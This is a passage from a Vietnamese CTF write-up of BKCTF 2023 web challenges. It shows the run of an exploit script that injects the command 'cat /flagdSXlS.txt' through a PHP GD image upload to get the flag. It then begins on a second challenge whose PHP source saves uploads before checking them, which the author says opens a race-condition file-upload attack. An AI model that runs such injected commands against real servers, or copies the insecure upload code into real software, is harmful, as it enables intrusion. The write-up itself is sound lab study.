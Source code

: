Result:
``` bash
┌──(root㉿kali)-[/home/…/bkctf/bkctf2023-imagecopyresampled/exploit/test]
└─# python 4.py "http://18.141.143.171:32290/" "test.php" "1=cat /flagdSXlS.txt"
Flag:
PNG
▒

IHDR(/: pHYsÄÄ+IDATXc\BKSEC{Php_Gd_iDa7_cHunk_65150cb4cdc2a10d714ed00941de058c}X  ð
                                                                                   Ï×-oLaþª7ÝC?àÁ¦F+mb6Jæålä~xM\¦_ZÁfµ8üÛ~_Ó}ª'÷ñãÉ¿_ï|²00cÙÉÃpð÷õÈìH'w4XÜý¹eÂºÃ?ÙFÁ(▒£`Q0
FÁ(▒£`Q0
FÁ( Z)4wâ,IEND®B`

```

Flag: `BKSEC{Php_Gd_iDa7_cHunk_65150cb4cdc2a10d714ed00941de058c}`


## Metadata checker
### Description

![](https://hackmd.io/_uploads/HyF12jWa2.png)

Link: `http://18.141.143.171:30037`

Source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2023/bkctf%202023/bkctf2023-metadata-checker.zip).

### Solution

Upload ảnh bất kỳ thì thấy như này:

![](https://hackmd.io/_uploads/HJvcibzpn.png)

Tên ảnh được thay đổi thành bằng cách gộp: `cookie + timestamp + tên ảnh ban đầu.`

Bài này y chang một bài mình từng đọc ở blog của vnpt.

- Đây là một bài upload file via race condition, tham khảo chi tiết tại blog này: `https://sec.vnpt.vn/2023/05/exploiting-file-upload-vulnerability-with-race-conditions-challenge-for-you`

Source code chỉ có 1 file index.php là đáng chú ý.

```php
<?php
error_reporting(0);

setcookie("user", "BKSEC_guest", time() + (86400 * 30), "/"); // Cookie will be valid for 30 days

if (isset($_FILES) && !empty($_FILES)) {
    $uploadpath = "/var/tmp/";
    $error = "";
    
    $timestamp = time();

    $userValue = $_COOKIE['user'];
    $target_file = $uploadpath . $userValue . "_" . $timestamp . "_" . $_FILES["image"]["name"];

    move_uploaded_file($_FILES["image"]["tmp_name"], $target_file);

    if ($_FILES["image"]["size"] > 1048576) {
        $error .= '<p class="h5 text-danger">Maximum file size is 1MB.</p>';
    } elseif ($_FILES["image"]["type"] !== "image/jpeg") {
        $error .= '<p class="h5 text-danger">Only JPG files are allowed.</p>';
    } else {
      $exif = exif_read_data($target_file, 0, true);
```